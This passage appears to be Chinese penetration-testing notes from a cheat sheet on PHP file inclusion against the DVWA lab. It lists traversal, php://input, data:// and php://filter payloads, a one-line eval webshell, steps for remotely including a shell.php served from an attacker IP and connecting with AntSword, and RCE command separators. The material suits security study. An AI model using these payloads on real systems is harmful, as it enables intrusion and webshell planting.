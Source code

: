 - file=filexxx/../../../hackable/uploads/picshell.jpg              //构造不存在的目录进行回退包含

- file=file:///C:/phpstudy_pro/WWW/dvwa/hackable/uploads/picshell.jpg         // file协议后跟绝对路径  

- file=php://input    [post data] 中写入   <?php phpinfo(); ?>           //将post表单中的内容当作文件内容进行包含

  **有后缀的突破：**

- file=data://text/plan,<?php @eval($_POST['x']); ?>               //将逗号之后的内容当作文件内容进行包含（当包含在末尾添加后缀的情况，如include{$_GET[file].".txt"}每次都会在包含文件后添加后缀）

- file=data://text/plan;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

- 远程文件包含

  1.攻击机桌面创建shell.php文件

  2.本地桌面启动命令行进行端口监听

  ```
  python -m SimpleHTTPServer 8023 
  python -m http.server 8023      //二选一
  ```

  3.访问(攻击者)桌面本地shell文件

  file=http://11.1.10.250:8023/shell.php    

  4.蚁剑连接

- file=php://filter/read=convert.base64-encode/resource=fi_remote.php      //**读文件源码**（key作为注释或者变量被执行输出结果而不可见的情况）





- file=zip://shell.zip#shell.txt                  //包含压缩包内容

  #在url中表示锚点，后面的内容不传输到服务器，所以需要对#URL编码为%23

  

- include('ssssss' . $_GET['x']);

- include($_GET['x'] . '.txt');          //远程包含

# 解析漏洞

![中间件解析漏洞](https://gitee.com/Wizo142857/cloudimages/raw/master/img/%E4%B8%AD%E9%97%B4%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E.png)

# RCE

## 连接符

`|   ||    &     &&      ；`

## 读文件
